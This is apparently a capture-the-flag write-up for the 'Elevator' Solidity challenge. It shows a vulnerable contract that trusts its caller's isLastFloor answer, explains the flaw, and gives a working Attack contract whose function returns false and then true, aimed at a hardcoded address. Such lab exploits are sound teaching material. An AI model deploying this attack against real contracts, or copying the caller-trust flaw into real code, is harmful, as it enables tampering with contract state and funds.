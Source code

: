 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

we have to set "top" variable to true to pass this challenge. "goTo" function is expected to be called from a Building contract and to set "top" to "true", on the first call of "isLastFloor", it has to return "false" and on the second call, it should return "true". We can use a state variable to track "isLastFloor" calls and return appropriate boolean based on that.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface elevator{
    function goTo(uint _floor) external;
}

contract Attack {
    bool top = true;

    elevator el;

    constructor(){
        el = elevator(0xA06C21cf156f0741F2c8F0CaeA78f8F901178F00);
    }

    function attack() public {
        el.goTo(10);
    }

    function isLastFloor(uint) public returns (bool) {
        top = !top;
        return top;
    }
}
```

